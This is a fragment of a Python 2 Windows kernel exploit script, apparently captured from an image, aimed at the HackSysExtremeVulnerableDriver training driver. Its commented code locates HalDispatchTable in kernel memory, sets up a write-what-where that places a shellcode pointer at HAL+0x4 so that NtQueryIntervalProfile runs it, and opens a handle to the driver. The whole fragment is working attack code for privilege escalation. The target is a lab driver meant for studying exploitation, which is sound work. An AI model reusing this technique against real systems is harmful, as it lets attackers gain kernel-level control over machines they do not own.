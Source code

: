 ```python
# NtQueryIntervalProfile is an undocumented Windows API function that references HAL at the location of HAL +0x4.
# HAL +0x4 is the address we will eventually need to write over. Once HAL is exported, we will be most interested in HAL + 0x4

# Beginning enumeration
kernel_handle = kernel32.LoadLibraryExA(
    current_name,                       # lpLibFileName (specifies the name of the module, in this case ntlkrnl.exe)
    None,                               # hFile (parameter must be null
    0x00000001                          # dwFlags (DONT_RESOLVE_DLL_REFERENCES)
)

# Error handling if function fails
if not kernel_handle:
    print "[+] LoadLibraryExA() function failed!"
    sys.exit(-1)

# Getting HAL Address
hal = kernel32.GetProcAddress(
    kernel_handle,                      # hModule (handle passed via LoadLibraryExA to ntoskrnl.exe)
    'HalDispatchTable'                  # lpProcName (name of value)
)

# Subtracting ntoskrnl base in user mode
hal -= kernel_handle

# Add base address of ntoskrnl in kernel mode
hal += base_address

# Recall earlier we were more interested in HAL + 0x4. Let's grab that address.
real_hal = hal + 0x4

# Print update with HAL and HAL + 0x4 location
print "[+] HAL location: {0}".format(hex(hal))
print "[+] HAL + 0x4 location: {0}".format(hex(real_hal))

# Referencing class created at the beginning of the sploit and passing shellcode to vulnerable pointers
# This is where the exploit occurs
write_what_where = WriteWhatWhere()
write_what_where.What = payload_final   # What we are writing (our shellcode)
write_what_where.Where = real_hal       # Where we are writing it to (HAL + 0x4). NtQueryIntervalProfile() will eventually call this location and execute it
write_what_where_pointer = pointer(write_what_where)

# Print update statement to reflect said exploit
print "[+] What: {0}".format(hex(write_what_where.What))
print "[+] Where: {0}".format(hex(write_what_where.Where))


# Getting handle to driver to return to DeviceIoControl() function
print "[+] Using CreateFileA() to obtain and return handle referencing the driver..."
handle = kernel32.CreateFileA(
    "\\\\.\\HackSysExtremeVulnerableDriver", # lpFileName
    0xC0000000,                         # dwDesiredAccess
    0,                                  # dwShareMode
    None,                               # lpSecurityAttributes
    0x3,                                # dwCreationDisposition
    0,                                  # dwFlagsAndAttributes
    None                                # hTemplateFile
)
```